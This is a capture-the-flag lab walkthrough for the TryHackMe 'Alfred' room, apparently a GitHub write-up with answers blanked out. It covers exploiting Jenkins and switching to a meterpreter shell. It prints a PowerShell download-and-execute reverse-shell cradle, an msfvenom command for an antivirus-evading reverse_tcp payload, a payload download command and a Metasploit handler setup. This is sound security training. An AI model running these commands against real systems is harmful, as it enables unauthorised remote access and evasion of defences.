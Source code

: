 <p><h3> Welcome to the <em>TryHackMe</em></h3>
<h1>Offensive Pentesting learning path> Advanced Exploitation</h1>
<h2>Alfred</h2>
<p>Exploit Jenkins to gain an initial shell, then escalate your privileges by exploiting Windows authentication token.</p>
<br>
October 19, 2024<br><br>
Type: Easy<br>
Link: https://tryhackme.com/r/room/alfred</p><br>

![image](https://github.com/user-attachments/assets/89ba97a4-d79a-4c6d-8c86-dab1becb8e05)


<p><h2>Task 1 - Initial Access</h2>
In this room, we'll learn how to exploit a common misconfiguration on a widely used automation server(Jenkins - This tool is used to create continuous integration/continuous development pipelines that allow developers to automatically deploy their code once they made changes to it). After which, we'll use an interesting privilege escalation method to get full system access. <br><br>
Since this is a Windows application, we'll be using <strong>Nishang</strong> to gain initial access. The repository contains a useful set of scripts for initial access, enumeration and privilege escalation. In this case, we'll be using the <strong>reverse shell scripts</strong>.<br><br>
Please note that this machine <strong>does not respond to ping</strong> (ICMP) and may take a few minutes to boot up.

In the following link you´ll find more information about Nishang.https://github.com/samratashok/nishang<br>
And in tis other link we will find more abour reverse shell scripts. https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1</p>

<p><br></p>

> 1.1 - <em>How many ports are open? (TCP only)?</em><br>
>> <strong>_______</strong>

<p><br></p>

> 1.2 - <em>What is the username and password for the login panel? (in the format username:password)</em><br>
>> <strong>________</strong>

<p><br></p>

<p>Find a feature of the tool that allows you to execute commands on the underlying system. When you find this feature, you can use this command to get the reverse shell on your machine and then run it: <code>powershell iex</code> (<em>New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port</em></p>
<p>You first need to download the Powershell script and make it available for the server to download. You can do this by creating an http server with python: <code>python3 -m http.server</code></p>

<p><br></p>

> 1.3 - <br>
>> <strong>No answer needed</strong>

<p><br></p>

> 1.4 - <em>What is the username and password for the login panel? (in the format username:password)</em><br>
>> <strong>____</strong>


<p><h2>Task 2 - Switching Shells</h2>
To make the privilege escalation easier, let's switch to a meterpreter shell using the following process.<br><br>
Use msfvenom to create a Windows meterpreter reverse shell using the following payload:<br><br>
>> <strong>msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=IP LPORT=PORT -f exe -o shell-name.exe</strong><br><br>
This payload generates an encoded x86-64 reverse TCP meterpreter payload. Payloads are usually encoded to ensure that they are transmitted correctly and also to evade anti-virus products. An anti-virus product may not recognise the payload and won't flag it as malicious.<br><br>
After creating this payload, download it to the machine using the same method in the previous step:<br><br>
>> <strong>powershell "(New-Object System.Net.WebClient).Downloadfile('http://your-thm-ip:8000/shell-name.exe','shell-name.exe')"</strong><br><br>
Before running this program, ensure the handler is set up in Metasploit:<br><br>
>> <strong>use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST your-thm-ip set LPORT listening-port run</strong><br><br>
This step uses the Metasploit handler to receive the incoming connection from your reverse shell. Once this is running, enter this command to start the reverse shell<br><br>
>> <strong>Start-Process "shell-name.exe"</strong><br><br>
This should spawn a meterpreter shell for you!</p>

<p><br></p>

> 2.1 - <em>What is the final size of the exe payload that you generated?</em><br>
>> <strong>_______</strong>





